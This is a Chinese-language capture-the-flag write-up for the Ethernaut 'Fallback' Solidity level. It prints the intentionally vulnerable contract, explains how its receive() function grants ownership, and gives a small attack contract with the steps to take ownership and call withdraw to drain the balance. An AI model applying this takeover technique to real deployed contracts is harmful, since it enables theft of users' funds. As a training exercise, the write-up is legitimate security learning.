


# 1.Fallback

## 题目描述



## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

注意两个部分

```javascript
// 记录用户地址对合约的贡献量，当用户当前的贡献值大于 owner(定义为1000)，获得 owner权限
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
// fallback函数，当使用 send() 方法发送数据给合约时总会调用该方法
// 定义参考文章：https://me.tryblockchain.org/blockchain-solidity-fallback.html
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

思路如下


攻击合约部署

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./debug.sol";

contract Attack is Fallback {

  address payable addr = 0x67C2b4b52c4246BB32C200B475062e7882DB265D;
  Fallback att = Fallback(addr);

  function obtain_owner() public payable {
   payable(addr).send(msg.value);
  }
}
```

调用 contribute方法发送 1 wei


使用 send() 方法发送 1 wei， 触发 fallback



调用后查看 owner权限，已经成功获取


最后调用 withdraw方法  完成关卡